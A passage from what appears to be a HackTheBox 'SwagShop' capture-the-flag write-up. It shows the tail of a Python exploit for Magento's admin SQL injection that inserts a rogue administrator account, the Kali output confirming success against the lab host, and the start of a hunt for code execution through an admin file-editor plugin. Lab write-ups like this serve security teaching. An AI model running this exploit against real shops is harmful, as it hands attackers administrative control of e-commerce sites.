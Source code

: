```python
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""
QUERY = SQL.replace('\n', '').format(username=USERNAME, password=PASSWORD)
FILTER = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(QUERY)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(URL, 
                  data={'___directive': 'e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ',
                        'filter': base64.b64encode(FILTER),
                        'forwarded': 1})
if r.ok:
    print 'WORKED'
    print 'Check {0}/downloader with creds {1}:{2}'.format(TARGET, USERNAME, PASSWORD)
else:
    print 'DID NOT WORK'
```

After running it, we get the following:

```
root@kali:~/Desktop/swagshop# python cve.py 
WORKED
Check 10.10.10.140/downloader with creds bubba:gump
```

Nice! and these credentials work for the `/downloader` login page. Now that we have access, lets look for ways to run custom code. 

## `user.txt`

Some searching on this first page we land on and we see the following after clicking on the `return to admin` link on the `/downloader` page:

![2](./swagshop/2.png)

Notice the `IDE` option for the `Filesystem` plugin in the admin panel:
